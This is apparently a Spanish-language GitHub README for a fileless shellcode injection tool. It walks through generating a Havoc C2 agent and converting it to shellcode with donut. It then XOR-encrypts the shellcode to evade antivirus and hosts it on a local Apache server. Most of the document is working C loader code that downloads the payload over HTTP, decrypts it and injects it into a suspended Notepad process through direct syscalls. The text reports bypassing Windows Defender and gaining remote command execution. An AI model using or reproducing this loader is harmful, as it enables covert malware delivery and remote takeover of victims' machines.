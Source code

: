 ﻿# filelessShellcodeInjection

## Generación del payload del agente de Havoc

A pesar de que en Havoc es posible generar directamente un shellcode del agente, prefiero convertir el payload `.exe` a C y posteriormente a binario, ya que en algunas situaciones me dió problemas el shellcode de Havoc.

![](capturas/1.png)
## Generación del Shellcode

Para convertir el ejecutable del agente generado por Havoc en un shellcode, utilizamos **donut**, una herramienta especializada en convertir PE/EXE a shellcode compatible para inyecciones en memoria. El comando utilizado fue:

```bash
donut -i payload.exe -a 2 -f 3 -o shellcode.c -e 1 -z 1 -b 1
```

Donut genera un archivo `shellcode.c` que contiene el shellcode codificado como una cadena de caracteres en formato `\xAA\xBB...`.

![](capturas/2.png)
## Conversión a Binario

Una vez generado el `shellcode.c`, eliminamos la definición de la variable y el punto y coma del final para quedarnos únicamente con la cadena del shellcode. A continuación, se utiliza el siguiente script en Python para convertir esa cadena en un archivo binario:

```python
with open("shellcode.c", "r") as f:
    data = f.read()

data = data.replace("\\x", "").replace('"', '').replace(" ", "").strip()

binario = bytes.fromhex(data)

with open("shellcode.bin", "wb") as f:
    f.write(binario)
```

Este proceso produce un archivo binario puro (`shellcode.bin`), listo para ser manipulado o encriptado.

![](capturas/3.png)
## Encriptación con XOR

Con el fin de evadir ciertos motores antivirus que detectan firmas de shellcode comunes, se opta por aplicar una encriptación simple con XOR utilizando una clave de un solo byte. Se utilizó el siguiente código para dicho propósito:

```python
from pwn import *

key = ord('z')

with open("shellcode.bin", "rb") as file:
    data = bytearray(file.read())

encriptado = bytearray()

p1 = log.progress("Encriptando datos: ")

for bytes in data:
    p1.status(bytes)
    encriptado.append(bytes ^ key)

with open("shellcode_encrypted.bin", "wb") as f:
    f.write(encriptado)
```

El resultado es un nuevo archivo llamado `shellcode_encrypted.bin`, el cual contiene el shellcode ofuscado mediante XOR.

![](capturas/4.png)
## Servidor HTTP y Preparación

Para facilitar las pruebas, se utilizó el servidor **Apache2** que viene instalado por defecto en Kali Linux. El archivo `shellcode_encrypted.bin` se movió a la ruta `/var/www/html` para hacerlo accesible a través de una URL dentro de la red local.

```bash
sudo mv shellcode_encrypted.bin /var/www/html/
```

Asegurarse de que Apache esté corriendo:

```bash
sudo systemctl start apache2
```

## Descarga y Desencriptación en C

El programa en C comienza estableciendo una sesión HTTP utilizando la API `WinINet` de Windows:

```c
HINTERNET hInternet = InternetOpenA(NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
if (hInternet == NULL) {
    printf("[-] Error iniciando una sesión a www: %lu\n", GetLastError());
    return 1;
}
printf("[+] Conexion a www establecida\n");
```

Luego, se realiza una solicitud HTTP a la URL donde está alojado el shellcode encriptado:

```c
const char* url = "http://192.168.0.29/shellcode_encrypted.bin";

HINTERNET hFile = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
if (hFile == NULL) {
    printf("[-] Error abriendo una solicitud a %s: %lu\n", url, GetLastError());
    return 1;
}
printf("[+] Solicitud realizada a %s\n", url);
```

Se reserva memoria dinámica y se descarga el contenido del archivo remoto en un búfer:

```c
DWORD bytesLeidos = 0;
DWORD bytesTotales = 0;
BYTE* shellcodeBuffer = (BYTE*)malloc(1000000);
if (!shellcodeBuffer) {
    printf("[-] Error reservando memoria: %lu\n", GetLastError());
    return 1;
}

while (InternetReadFile(hFile, shellcodeBuffer + bytesTotales, 4096, &bytesLeidos) && bytesLeidos != 0) {
    bytesTotales += bytesLeidos;
    if (bytesTotales >= 1000000) {
        printf("[-] Se necesita más memoria para leer el shellcode: %lu\n", GetLastError());
        free(shellcodeBuffer);
        return 1;
    }
}
printf("[+] Shellcode descargado: %d bytes\n", bytesTotales);
```

Una vez descargado, se desencripta el shellcode mediante XOR utilizando la misma clave que se usó en la encriptación:

```c
char key = 'z';
for (int i = 0; i < bytesTotales; i++) {
    shellcodeBuffer[i] ^= key;
}
```

## Inyección en Proceso Remoto (Notepad)

Se crea un proceso suspendido del Notepad, que será el objetivo de la inyección:

```c
STARTUPINFOA si = { 0 };
PROCESS_INFORMATION pi = { 0 };

if (!CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, 0, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
    printf("[-] Error abriendo el notepad: %lu\n", GetLastError());
    free(shellcodeBuffer);
    return 1;
}
printf("[+] Notepad abierto con PID: %d\n", pi.dwProcessId);
```

A continuación, se reserva memoria en el proceso remoto y se escribe el shellcode:

```c
PVOID baseAddress = NULL;
SIZE_T sShellcodeBuffer = bytesTotales;
PSIZE_T pSize = &sShellcodeBuffer;

Sw3NtAllocateVirtualMemory(pi.hProcess, &baseAddress, 0, pSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
printf("[+] Memoria reservada en proceso remoto en: %p\n", baseAddress);

Sw3NtWriteVirtualMemory(pi.hProcess, baseAddress, shellcodeBuffer, sShellcodeBuffer, NULL);
printf("[+] Shellcode escrito en la memoria del notepad: %d bytes\n", bytesTotales);
```

Finalmente, se crea un nuevo hilo en el proceso remoto que ejecuta el shellcode y se reanuda la ejecución del proceso:

```c
HANDLE hThread = NULL;
Sw3NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, pi.hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);
printf("[+] Hilo del shellcode creado y ejecutándose\n");

ResumeThread(pi.hThread);
printf("[+] Reanudando el proceso del notepad\n");
```

## Pruebas sobre Windows Defender

Arriba a la izquierda ejecuto el programa, debajo la comprobación de que la seguridad de Windows está activada y a la derecha el C2 más la ejecución remota de comandos.

![](capturas/5.png)

Este es el output del programa y vemos que no da ningún error.

![](capturas/6.png)

